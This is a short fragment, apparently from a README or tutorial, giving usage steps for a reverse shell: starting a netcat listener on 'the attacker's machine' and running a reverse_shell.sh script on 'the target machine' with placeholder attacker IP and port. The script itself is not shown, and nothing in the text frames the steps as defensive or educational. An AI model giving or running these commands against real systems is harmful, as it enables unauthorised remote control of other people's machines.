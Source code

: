 Set up the listener on the attacker's machine:

nc -lvnp <ATTACKER_PORT>

Run the reverse shell script on the target machine:

./reverse_shell.sh <ATTACKER_IP> <ATTACKER_PORT>
